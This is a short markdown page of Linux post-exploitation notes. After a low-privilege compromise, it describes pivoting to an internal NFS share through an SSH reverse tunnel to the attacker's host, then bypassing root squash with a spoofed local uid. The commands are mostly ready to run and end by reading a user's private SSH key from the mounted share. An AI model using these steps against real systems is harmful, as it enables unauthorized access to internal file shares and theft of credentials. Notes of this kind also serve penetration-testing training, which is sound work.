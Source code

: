 # Linux Post Methods

## Misc Tricks

### NFS Proxy Mount

tags: nfs, proxy, proxychains, mount, reverse tunnle, ssh

#### Mount internal NFS share through pivot

After compromising a host as a low-priv user, if the system has access to local NFS shares, the shares can be mounted via a proxy. One method is to create a SSH proxy and mount the NFS share on the remote attack box. In the easiest of cases, the below is all that is required.

```
# victim
ssh -R 2049:$target_nfs_ip:2049 proxyusr@$atk_ip
# attacker
mount -t nfs -o port=2049 localhost:/share /mnt
```

As NFS uses multiple ports for protocol communication, and can make use of TCP or UDP, if the mount command fails, it is likely due to the `mountport` being unknown on the attacking system. This can be resolved by feeding the mount command the port manually. Run the following on the victim system to identify the port. 

```
rpcinfo -p $victim_nfs
```

Where the `mountd` port is the `mountport`, it can be fed to the mount command.

```
mount -t nfs -o port=2049,mountport=1234 localhost:/share /mnt
```

One may need to set the `-o proto=tcp` to ensure TCP is used. Or, the  NFS version may need to be set manually, such as `-o vers=3` or `-o vers=4`.

#### Rootsquash / Squashfs Bypass

Some versions of NFS can be configured so that even after a proxy mount, as the root user on the attacking system, not all files can be accessed. This is due to a root squash. One way to bypass this protection is to create a local user with a matching `uid`. 

For example, after mounting the `nfs:/home` directory locally, trying to reach the user folder for `jane` as the local root user does not work.

On the victim system, run:

`id -u jane`

Collect the `uid` of jane. On the attacking system, run:

```
useradd --uid 3755
su jane
cat /mnt/jane/.ssh/id_rsa
```